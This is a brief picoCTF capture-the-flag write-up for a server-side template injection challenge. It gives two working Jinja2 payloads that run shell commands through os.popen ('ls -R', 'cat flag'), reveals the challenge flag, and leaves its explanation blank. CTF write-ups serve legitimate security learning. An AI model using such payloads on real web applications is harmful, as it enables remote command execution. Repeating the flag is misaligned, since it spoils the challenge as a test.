# [SSTI1 (Web Exploitation, Easy)](https://play.picoctf.org/practice/challenge/492) - Server Side Template Injection

- Description: I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:58745/)!
  - <img width="507" height="137" alt="image" src="https://github.com/user-attachments/assets/d1bc2c5f-04d9-404e-97cb-3dd02227d879" />

- Solution:
  ```txt
  {{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
  ```
  <img width="1275" height="550" alt="image" src="https://github.com/user-attachments/assets/f9a0367d-19a4-49bb-b261-7a8e629fdc3e" />

  ```txt
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
  ```
  <img width="969" height="44" alt="image" src="https://github.com/user-attachments/assets/c4ecbf03-6aba-4b07-bf5a-c1070f7c0614" />

  

- Flag: `picoCTF{1t5_ju5t_4_5tr1n9_c63b02ef}`
- Explanation:
